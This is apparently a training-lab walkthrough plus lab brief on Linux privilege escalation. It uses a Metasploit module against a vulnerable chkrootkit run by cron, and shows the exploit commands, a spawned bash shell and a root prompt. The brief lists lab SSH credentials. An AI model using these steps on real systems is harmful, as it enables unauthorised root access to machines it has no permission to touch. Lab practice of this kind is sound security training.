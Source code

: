 We want to run this via the Meterpreter session.

```
set LHOST 192.124.219.2
exploit
^C
```

It'll create a Cron job to execute the /tmp/update file that has been created, it's then going to wait for chkrootkit to run via cron.

```
show options
set LHOST 192.124.219.2
exploit
```

We may have to change the path to chkrootkit if this doesn't work. We may have to specify the absolute path.

It's going to be executed via the Cron job.

We get a command shell session open.

```
/bin/bash -i
root@victim-1:~# 
```

We now have root access and have successfully been able to elevate our privileges.

```
root@victim-1:~# whoami
root
```

We are root, and we now have root privileges.

That is how to elevate your privileges on a Linux system via exploiting a vulnerable program or binary that's on the Linux system. And this is also applicable to a kernel exploit. However, kernel exploits in the case of Metasploit Framework will need to be done manually and will involve the process of downloading exploit code remotely.

# Privilege Escalation - Rootkit Scanner
## Overview
The target server as described below is running vulnerable Rootkit Scanner. Your task is to exploit a known issue using the appropriate Metasploit module and escalate to root user.

Objective: Escalate to root user on the target machine and retrieve the flag!

SSH Login Credentials:

`| Username | Password | | jackie | password |`

Instructions: 
* This lab is dedicated to you! No other users are on this network
* Once you start the lab, you will have access to a root terminal of a Kali instance
* Your Kali has an interface with IP address 192.X.Y.2. Run "ip addr" to know the values of X and Y.
* The target server should be located at the IP address 192.X.Y.3.
* Do not attack the gateway located at IP address 192.X.Y.1
* postgresql is not running by default so Metasploit may give you an error about this when starting
